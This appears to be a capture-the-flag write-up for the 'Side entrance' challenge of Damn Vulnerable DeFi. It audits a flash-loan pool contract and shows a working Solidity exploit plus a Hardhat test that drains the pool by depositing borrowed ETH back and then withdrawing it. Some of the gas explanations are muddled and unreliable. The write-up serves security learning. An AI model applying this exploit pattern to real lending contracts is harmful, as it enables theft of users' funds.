

**Wargame Provider: @tinchoabbate**

> Challenge #4 — Side entrance
A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
You must take all ETH from the lending pool.


## Code Audit
> SideEntranceLenderPool.sol

### Dependency

- The address contract of the openzeppelin library is used as a dependency.

### State Variable

`mapping (address=>uint256) private balances`

- It is used for flash Loan Pool management and cannot be accessed from outside because it is a private access indicator.

### Functions

`fuction deposit() external payable`

- You can see that the `msg.value` value is filled in for each address of `msg.sender` as a key value in the state variable balances mapping. Anyone from the outside can call this function to populate the balances mapping with a payable directive, making `ether` tradable.

`function withdraw() external`

- In the state variable balances mapping, the value is extracted based on the corresponding `msg.sender` key and assigned to the `amountToWithdraw` variable.
- Logically, it is a logic configuration that allows withdrawal/withdrawal while managing the user’s balance through the balances variable.
- After temporarily matching the allocation of `amountToWithdraw`, a local variable, the `balances` mapping value of the address is initialized to 0.
- You can see that the value is passed to `msg.sender` while executing the last line of `payable(msg.sender).sendValue(amountToWithdraw).`

In this part, we use the sendValue method for sending ether . Let’s analyze it in depth. It is implemented as a method inside the `openzeppelin/<->/Address.sol` module. As stated in the development specification, the call command is used to transmit ether on the internal logic. Basically, each method transfer, send, call is used to send ether.

### The big differences are:

- transfer : Consumes 2300 gas, and an error occurs in case of failure

- send : consumes 2300 gas, returns true or false whether success or not

- call : Consuming variable gas and receiving `_to` Ether. Use the form `_to.call{value: msg.value, gas:}(””).` Gas is unspecified due to reentrancy attack.
If the SLOAD operation consumes 5000 gas, transfer, send cannot be used, so the call command is used.

If the `SLOAD` operation consumes 5000 gas, `transfer, send` cannot be used, so the `call` command is used.

```Solidity
// **OMIT**
/**
     * @dev Replacement for Solidity's `transfer`: sends `amount` wei to
     * `recipient`, forwarding all available gas and reverting on errors.
     *
     * https://eips.ethereum.org/EIPS/eip-1884[EIP1884] increases the gas cost
     * of certain opcodes, possibly making contracts go over the 2300 gas limit
     * imposed by `transfer`, making them unable to receive funds via
     * `transfer`. {sendValue} removes this limitation.
     *
     * https://diligence.consensys.net/posts/2019/09/stop-using-soliditys-transfer-now/[Learn more].
     *
     * IMPORTANT: because control is transferred to `recipient`, care must be
     * taken to not create reentrancy vulnerabilities. Consider using
     * {ReentrancyGuard} or the
     * https://solidity.readthedocs.io/en/v0.5.11/security-considerations.html#use-the-checks-effects-interactions-pattern[checks-effects-interactions pattern].
     */
    function sendValue(address payable recipient, uint256 amount) internal {
        require(address(this).balance >= amount, "Address: insufficient balance");

        (bool success, ) = recipient.call{value: amount}("");
        require(success, "Address: unable to send value, recipient may have reverted");
    }
// **OMIT**
```

`function flashLoan(uint256 amount) external`

✅ After allocating the ether value of the current contract to the value of the `amount` variable received as a parameter and the local variable `balanceBefore`, check whether the loan can be proceeded by comparison.

- Call the `execute` function defined in the `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}()` Interface. In this case, the `amount` variable received as a parameter is used for the `value` property value. However, the `execute` function is not implemented internally, so it does not perform specific handling.

✅ At the end of the flash Loan logic, it is determined whether the loan has been properly collected.

## vulnerability

It could be seen that the flash Loan logic was not implemented properly. Because handling is not implemented, it does not work properly, and if an attacker triggers by deploying a contract that arbitrarily implements the `execute` function, an attack outside of the actual logic is possible.

Next, the `deposit/withdraw` functions can control the `balances` mapping value in a form that anyone can use externally. At this time, by applying the `payable(msg.sender).sendValue(…)` pattern implemented in the `withdraw` function, the attacker can become a medium through which ether can be delivered to the implemented contract.

## Solve

Build an exploit contract to handle the target contract. Since the `execute` function is called by calling the `flashLoan` function in the attack target logic, the `flashLoan` function is called first.

1. `target.flashLoan(address(target).balance);` ← Because ether is actually stored as the target contract’s balance value, the value is passed, and when the execute function is executed, the value is converted to the target contract’s balance. Make settings.

2. When jumping to the execute function address, internally, by depositing the value before the exploit contract address, it is saved in the ‘balances’ mapping of the target contract. At this point, the address of the exploit contract distributed by the attacker is set as the key value, and the ether value of the SideEntranceLenderPool contract is set as the “value” value.

3. After returning the call, call `target.withdraw()` to extract the ether value assigned to the `balances` mapping and send the ether to the actual exploit contract address. (target contract <ether> → exploit contract)

4. Since we moved the ether, we steal all the balance by sending it again to the attacker’s address.

``` Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "./SideEntranceLenderPool.sol";

contract Exploit {
    using Address for address payable;

    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    }

    function exploit(SideEntranceLenderPool target) external {
        target.flashLoan(address(target).balance);
        target.withdraw();
        payable(msg.sender).sendValue(address(this).balance);
    }

    receive() external payable {}
}
```

``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { Contract } = require('ethers');

describe('[Challenge] Side entrance', function () {

    let deployer, attacker;

    const ETHER_IN_POOL = ethers.utils.parseEther('1000');
    // const Exploit = contract.fromArtifactName('Exploit');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();
        const exploit = await ethers.getContractFactory('Exploit', attacker);
        this.exploit = await exploit.deploy();

        const SideEntranceLenderPoolFactory = await ethers.getContractFactory('SideEntranceLenderPool', deployer);
        this.pool = await SideEntranceLenderPoolFactory.deploy();
        
        await this.pool.deposit({ value: ETHER_IN_POOL });

        this.attackerInitialEthBalance = await ethers.provider.getBalance(attacker.address);

        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.equal(ETHER_IN_POOL);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.exploit.connect(attacker).exploit(this.pool.address);

    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.be.equal('0');
        
        // Not checking exactly how much is the final balance of the attacker,
        // because it'll depend on how much gas the attacker spends in the attack
        // If there were no gas costs, it would be balance before attack + ETHER_IN_POOL
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.be.gt(this.attackerInitialEthBalance);
    });
});

```

## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)

```toc
```